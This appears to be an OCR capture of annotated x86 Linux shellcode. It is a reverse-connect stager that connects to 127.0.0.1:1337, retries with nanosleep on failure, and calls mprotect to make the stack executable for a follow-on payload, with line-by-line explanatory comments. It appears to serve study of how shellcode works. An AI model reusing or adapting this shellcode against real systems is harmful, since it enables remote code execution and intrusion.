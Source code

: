 ```nasm
   0x00404052 <+18>:	xchg   edi,eax		      ; Save sockfd in EDI

   ; socketcall(SYS_CONNECT, *connectargs)
   ; connect(sockfd, *sockaddr, addrlen)
   ; sockaddr{AF_INET, port, ip_address}
   0x00404053 <+19>:	pop    ebx		      ; set ebx to 2 (SYS_BIND socketcall type)
   0x00404054 <+20>:	push   0x100007f	      ; push chosen IP address (127.0.0.1)
   0x00404059 <+25>:	push   0x39050002	      ; push chosen port (1337) and AF_INET
   0x0040405e <+30>:	mov    ecx,esp                ; set ECX to *sockaddr 
   0x00404060 <+32>:	push   0x66			
   0x00404062 <+34>:	pop    eax		      ; set eax to socketcall value
   0x00404063 <+35>:	push   eax		      ; push 0x66 for addrlen
   0x00404064 <+36>:	push   ecx		      ; push *sockaddr
   0x00404065 <+37>:	push   edi		      ; push sockfd
   0x00404066 <+38>:	mov    ecx,esp		      ; Point ECX to connect() arguments
   0x00404068 <+40>:	inc    ebx		      ; set EBX to SYS_CONNECT
   0x00404069 <+41>:	int    0x80		      
 
   0x0040406b <+43>:	test   eax,eax		      ; EAX AND EAX operation, update the signed flag (SF)
						      ; here it is used to test if an error occured
						      ; it is also equivalent and faster than "cmp eax, 0"
   0x0040406d <+45>:	jns    0x404088 <payload+72>  ; jump if SF = 0 (if the connection succeeds)

   0x0040406f <+47>:	dec    esi		      ; if the shellcode can't connect
						      ; decrement the ESI counter
   0x00404070 <+48>:	je     0x4040af <payload+111> ; if ESI = 0, jump to exit syscall

   ; man nanosleep
   ; int nanosleep(const struct timespec *req, struct timespec *rem);
   ; Here suspends the execution for the time specified in *req 
   ; before retrying to connect
   0x00404072 <+50>:	push   0xa2		      
   0x00404077 <+55>:	pop    eax                    ; nanosleep syscall number
   0x00404078 <+56>:	push   0x0                    ; 0 nanoseconds
   0x0040407a <+58>:	push   0x5                    ; 5 seconds
   0x0040407c <+60>:	mov    ebx,esp                ; struct timespec pointer
   0x0040407e <+62>:	xor    ecx,ecx                ; Null pointer
   0x00404080 <+64>:	int    0x80

   0x00404082 <+66>:	test   eax,eax                ; test if an error occured
   0x00404084 <+68>:	jns    0x404043 <payload+3>   ; if no error, retry to connect
   0x00404086 <+70>:	jmp    0x4040af <payload+111> ; else jump to exit syscall

   ; man mprotect 
   ; int mprotect(void *addr, size_t len, int prot);
   ; used to set the access protection of the page to which 
   ; belongs the memory address of the top of the stack to RWX
   ; return 0 on success
   0x00404088 <+72>:	mov    dl,0x7		      ; set EDX to Read Write Exec permission value
   0x0040408a <+74>:	mov    ecx,0x1000             ; set ECX to memory page length
   0x0040408f <+79>:	mov    ebx,esp                ; copy stack address to EBX

   0x00404091 <+81>:	shr    ebx,0xc                ; Page alignment, set the last 12bits of EBX to 0
   0x00404094 <+84>:	shl    ebx,0xc		      ; EBX now point to the first byte of the page to which
						      ; belongs the memory address of the top of the stack
   0x00404097 <+87>:	mov    al,0x7d                ; mprotect syscall number
   0x00404099 <+89>:	int    0x80

   0x0040409b <+91>:	test   eax,eax                ; test if an error occured
   0x0040409d <+93>:	js     0x4040af <payload+111> ; On error jump to exit syscall
```